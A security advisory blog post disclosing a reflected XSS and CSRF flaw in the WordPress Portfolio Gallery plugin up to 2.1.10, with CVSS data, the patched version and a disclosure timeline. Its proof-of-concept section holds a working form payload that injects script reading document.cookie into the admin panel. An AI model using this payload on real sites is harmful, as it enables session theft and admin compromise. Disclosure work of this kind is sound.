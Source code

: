 ```yaml
---
layout: post
title: Portfolio <= 2.1.10 Reflected XSS Disclosure
date: 2016-10-15
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - portfolio-gallery
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/portfolio-gallery/](https://wordpress.org/plugins/portfolio-gallery/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))


## Versions Affected
2.1.10 and below

## Solution
Upgrade to version 2.1.11 or later

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=portfolios_huge_it_portfolio">
  <input name="page_number" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
  <input type="submit" value="submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/portfolio\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/portfolio_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8637](https://wpvulndb.com/vulnerabilities/8637)

## Disclosure Timeline
* **2016-08-30**: Vendor patched vulnerability
* **2016-10-15**: Published a POC with additional information due to no official disclosure being released to the public
